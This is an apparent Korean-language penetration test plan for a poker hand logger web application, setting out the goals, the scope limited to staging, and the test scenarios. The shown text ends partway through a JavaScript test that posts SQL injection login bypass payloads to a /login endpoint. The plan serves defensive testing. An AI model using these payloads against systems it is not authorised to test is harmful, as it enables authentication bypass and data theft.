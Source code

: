 # 포커 핸드 로거 침투 테스트 계획서

## 📋 **테스트 개요**

### 목적
포커 핸드 로거 시스템의 보안 취약점을 체계적으로 발견하고 평가하여 보안 강화 방안을 도출

### 범위
- **대상 시스템**: 포커 핸드 로거 웹 애플리케이션
- **테스트 환경**: 개발/스테이징 환경
- **기간**: 2주 (계획 1주 + 실행 1주)
- **테스트 방법**: 화이트박스 + 블랙박스 테스팅

### 제외 사항
- 프로덕션 환경 직접 테스트
- 실제 사용자 데이터 조작
- 시스템 다운을 유발하는 DoS 공격

## 🎯 **테스트 목표**

### 주요 목표
1. **인증 우회 취약점 발견**
2. **데이터 유출 경로 식별**
3. **권한 상승 가능성 검증**
4. **입력 검증 우회 방법 탐지**
5. **세션 하이재킹 가능성 평가**

### 측정 지표
- 발견된 취약점 수 및 심각도
- 성공적인 공격 시나리오 수
- 데이터 접근 가능 범위
- 시스템 침입 깊이

## 🔍 **테스트 시나리오**

### 1. 인증 및 권한 관리 테스트

#### 1.1 로그인 우회 테스트
```javascript
// 테스트 케이스: SQL Injection을 통한 로그인 우회
const loginPayloads = [
    "admin' OR '1'='1' --",
    "admin' OR '1'='1' /*",
    "' UNION SELECT 1,1,1,1 --",
    "admin'/**/OR/**/1=1--",
    "' OR 1=1#"
];

async function testSQLInjectionLogin() {
    for (const payload of loginPayloads) {
        const response = await fetch('/login', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({
                username: payload,
                password: 'anypassword'
            })
        });
        
```